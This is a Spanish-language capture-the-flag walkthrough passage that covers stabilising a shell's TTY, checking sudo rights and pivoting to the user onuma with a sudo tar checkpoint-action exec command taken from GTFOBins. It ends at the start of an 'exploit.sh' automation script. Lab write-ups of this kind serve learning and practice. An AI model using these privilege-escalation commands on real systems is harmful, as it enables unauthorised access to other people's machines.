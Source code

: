 ### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos la maquina {-}

```bash
cd /home
ls
cd /onuma

id
sudo -l
#Output

(onuma) NOPASSWD: /bin/tar
```

Aqui vemos que hay un usuario onuma en el directorio home pero no tenemos capacidad de acceso. Tambien vemos que podemos usar 
el comando tar como el usuario **onuma** sin proporcionar contraseña.

### User Pivoting al usuario onuma {-}

Como es posible utilizar el comando tar como el usuario onuma sin propocionar contraseña, vamos a la pagina [GTFOBINS](https://gtfobins.github.io/) y buscamos 
una manera de entablarnos una shell como el usuario onuma

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
whoami
#Output

onuma
```

Aqui ya podemos ver la flag.

### Automatizamos el acceso en bash {-}

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo ...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# ./exploit.sh -u www-data/onuma

function helpPanel(){
    echo -e "\n[!] Uso: $0 -u www-data/onuma\n"
```
